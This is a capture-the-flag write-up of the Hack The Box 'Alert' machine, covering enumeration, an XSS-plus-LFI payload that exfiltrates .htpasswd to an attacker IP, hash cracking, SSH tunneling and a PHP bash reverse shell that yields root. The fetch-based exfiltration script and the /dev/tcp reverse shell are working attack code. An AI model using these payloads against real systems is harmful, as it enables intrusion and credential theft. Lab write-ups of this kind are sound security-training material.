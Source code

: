 # Alert Hack The Box Machine (Linux)

## nmap
`nmap -sVC 10.10.11.44`

Results:
22
80

## http
`sudo vim /etc/hosts`
Takes a while to refresh

Markdown Viewer were we can upload a file. And after trying to upload a .php file it gives an error stating that you can only upload .md 
Contact page lets a submit a form and Donation page as well. We can use inspect and go to the network tool and see how that works. 

### gobuster 
Results:
/.hta                 (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd            (Status: 403) [Size: 274]
/css                  (Status: 301) [Size: 304] [--> http://alert.htb/css/]
/index.php            (Status: 302) [Size: 660] [--> index.php?page=alert]
/messages             (Status: 301) [Size: 309] [--> http://alert.htb/messages/]
/server-status        (Status: 403) [Size: 274]
/uploads              (Status: 301) [Size: 308] [--> http://alert.htb/uploads/]

Denied permission for both **/messages** and **/uploads**.

### ffuf
`ffuf -u http://alert.htb -H "HOST:FUZZ.alert.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -ac`
Results:
statistics              [Status: 401, Size: 467, Words: 42, Lines: 15, Duration: 75ms]

Added to my **/etc/hosts**
Prompted to enter password.

### File Upload 
I created a payload to exploit the Local File Inclusion (LFI) vulnerability, targeting the messages.php file to access sensitive configuration files on the server.
```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.15.26:7777/?file_content=" + encodeURIComponent(data));
  });
</script>

```
Was able to obtain a link. That is used to excute the code inside the **.md** file. 

#### netcat listener
`nc -lvnp 7777`
When going to the link we obtained on the browser gave me this:
```
listening on [any] 7777 ...
connect to [10.10.15.26] from (UNKNOWN) [10.10.15.26] 41798
GET /?file_content=%0A HTTP/1.1
Host: 10.10.15.26:7777
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://alert.htb/
Origin: http://alert.htb
Connection: keep-alive

```
Now in Contact Us pasting the link in the message container.
Results:
```
listening on [any] 7777 ...
connect to [10.10.15.26] from (UNKNOWN) [10.10.11.44] 59376
GET /?file_content=%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A HTTP/1.1
Host: 10.10.15.26:7777
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36
Accept: */*
Origin: http://alert.htb
Referer: http://alert.htb/
Accept-Encoding: gzip, deflate

```

Used CyberChef to decode this part of the URL `%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A`
Results:
`<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>`

Grabbed this `$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/`
`vim hash`
`john --wordlist=rockyou.txt hash`
prompting me to use `--format=md5crypt-long hash` instead

Got the password.

## SSH
Got user flag. 

Ran netstat to find if there is any internal ports that are running.
`netstat -tulpn`
Results:
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        2      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -

Back on your local machine:
`ssh -L 8080:127.0.0.1:8080 albert@alert.htb`
The command creates an SSH connection to `albert@alert.htb` and forwards traffic from your local machine's port 8080 to port 8080 on the remote server (`alert.htb`). 
This allows you to access a service running on `127.0.0.1:8080` of the remote machine as if it were running on your local machine's port 8080.

Viewing the the bottom of the page we can see this, "Website Monitor is an open source project inspired by broke.lol. Download it on GitHub."

`albert@alert:~$ find / -name "website-monitor" 2>/dev/null` Searche for "website-monitor" across the entire system, ignoring error messages.

Once in the directory; find a **config** directory.

In the **config** directory we can see other **.php** files. Here is where I uploaded my reverse shell **php** code. 
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.11.23/7777 0>&1'");
```

From I set up a netcat listener and on the browser I went to the webpage directory of /config/rvshell.php
Here I saw a connect:
`whoami`
`ls`
`cd /root`
`ls`
`cat root.txt`

PWNED!

# Summary and Key Takeaways:

This exercise involved a variety of penetration testing techniques to exploit a web application. The goal was to gain access to sensitive data and escalate privileges on a target machine.

1. **Initial Recon and Enumeration**:
   - **Nmap** was used to identify open ports (22 for SSH, 80 for HTTP), which guided the next steps.
   - **Gobuster** and **ffuf** were used to enumerate directories and subdomains, revealing accessible resources and restricted areas (403 errors, 301 redirects).

2. **Exploiting File Upload Vulnerability**:
   - The ability to upload files was exploited, despite restrictions (only `.md` allowed), by leveraging **Local File Inclusion (LFI)**.
   - The LFI vulnerability was used to retrieve sensitive configuration files, such as `.htpasswd`, which provided the credentials needed for SSH access.

3. **Privilege Escalation**:
   - Cracked the password using **John the Ripper** and gained SSH access with user privileges.
   - After identifying an open internal service (port 8080), **SSH tunneling** was used to access it.

4. **Reverse Shell and Root Privileges**:
   - A reverse shell was uploaded to gain remote control over the target system.
   - From the shell, privilege escalation was achieved by finding and accessing root-level files, resulting in obtaining the root flag.

---

## Key Takeaways:
- **LFI Vulnerabilities**: Local File Inclusion vulnerabilities can be used to read sensitive files on the server, such as `.htpasswd` or other configuration files.
- **File Uploads**: Even when file uploads are restricted, vulnerabilities can often be bypassed by crafting payloads to exploit weaknesses in the system (e.g., uploading PHP reverse shells).
- **Password Cracking**: Tools like **John the Ripper** are useful for cracking hashes from files like `.htpasswd`.
- **SSH Tunneling**: **SSH port forwarding** is a great technique for accessing services behind firewalls or on internal networks.
- **Reverse Shells**: Uploading a reverse shell can be a powerful method for gaining persistent access to a compromised machine.
  
## Things to Remember:
- Always perform thorough enumeration to identify all accessible resources, including hidden or protected directories.
- Use LFI vulnerabilities for reading sensitive files or triggering remote code execution, especially when paired with other vulnerabilities (e.g., file uploads).
- SSH tunneling allows you to bypass network restrictions and access internal services directly.
- Reverse shells should be used with caution, as they provide full remote access to a compromised system, allowing you to further escalate privileges and access sensitive data. 


